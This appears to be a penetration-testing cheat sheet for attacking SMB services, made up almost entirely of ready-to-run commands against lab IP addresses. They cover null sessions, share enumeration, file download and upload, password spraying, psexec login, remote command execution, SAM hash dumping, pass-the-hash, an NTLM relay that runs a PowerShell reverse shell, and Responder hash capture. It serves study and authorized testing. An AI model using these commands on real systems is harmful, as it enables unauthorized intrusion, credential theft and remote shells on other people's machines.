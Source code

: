 ### Attacking SMB

| **Command**                                                                                                     | **Description**                                                                                          |
| --------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `smbclient -N -L //10.129.14.128`                                                                               | Null-session testing against the SMB service.                                                            |
| `smbmap -H 10.129.14.128`                                                                                       | Network share enumeration using `smbmap`.                                                                |
| `smbmap -H 10.129.14.128 -r notes`                                                                              | Recursive network share enumeration using `smbmap`.                                                      |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                                           | Download a specific file from the shared folder.                                                         |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                                    | Upload a specific file to the shared folder.                                                             |
| `rpcclient -U'%' 10.10.110.17`                                                                                  | Null-session with the `rpcclient`.                                                                       |
| `./enum4linux-ng.py 10.10.11.45 -A -C`                                                                          | Automated enumeratition of the SMB service using `enum4linux-ng`.                                        |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`                                            | Password spraying against different users from a list.                                                   |
| `impacket-psexec administrator:'Password123!'@10.10.110.17`                                                     | Connect to the SMB service using the `impacket-psexec`.                                                  |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`            | Execute a command over the SMB service using `crackmapexec`.                                             |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`                           | Enumerating Logged-on users.                                                                             |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                                        | Extract hashes from the SAM database.                                                                    |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`                            | Use the Pass-The-Hash technique to authenticate on the target host.                                      |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`                                            | Dump the SAM database using `impacket-ntlmrelayx`.                                                       |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`.                                    |
| `sudo responder -I ens33`                                                                                       | We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes. |

### SMB Manual testing

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares

enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
```
